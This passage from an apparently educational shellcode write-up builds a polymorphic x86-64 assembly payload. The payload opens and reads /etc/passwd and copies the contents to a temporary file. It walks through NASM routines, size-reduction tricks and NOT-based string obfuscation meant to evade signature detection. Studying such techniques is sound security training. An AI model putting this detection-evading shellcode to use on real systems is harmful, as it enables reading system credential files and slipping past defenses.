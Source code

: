 <figcaption class="figure-caption">Opening the file `/etc/passwd`</figcaption>

### Reading the contents

For this routine I performed the same changes as before. In addition, I'm using the `XCHG` instruction instead of the `MOV` instruction you can find in the original shellcode after the call to `sys_open`.

```nasm
ReadPasswdFile:

    ; 1st argument of open: file descriptor of
    ; the file to read
    xchg rax, rdi

    ; clear RAX and RDX
    xor eax, eax
    cdq

    ; 2nd argument of read: base address of the
    ; buffer that will store the bytes read from
    ; the file
    mov rsi, rsp

    ; 3rd argument of read: maximum number of
    ; bytes to read
    ; set DX to 0xffff
    dec dx
    
    ; invoke syscall read
    syscall
```

<figcaption class="figure-caption">Reading the contents of `/etc/passwd`</figcaption>

Aside from that, I also changed the way the shellcode sets the register `DX` to the value `0xffff`.

Instead of hard-coding the value in the shellcode, I'm clearing the register `RDX` and decreasing `DX`, thus resulting in `0xffff`.

### Creating a temporary file

As mentioned previously, one way to decrease the number of bytes of the shellcode is to shorten the name of the temporary file, which in this case is `/tmp/outfile`.

In the end I decided against, since I managed to make the polymorphic shellcode smaller even without it.

If you take a look at the snippet below, you'll notice I replaced most of the `MOV` instructions with `PUSH` and `POP` alternatives.

I also obfuscated the string `/tmp/out` (leaving "file" in clear-text) using the `NOT` operator.

```nasm
CreateTempFile:

    ; save the number of bytes read into RCX
    ; (for later usage)
    mov rbx, rax

    ; save into R8 the pointer to the buffer
    ; containing the bytes read from the file
    push rsp
    pop r8

    ; clear RAX
    xor eax, eax

```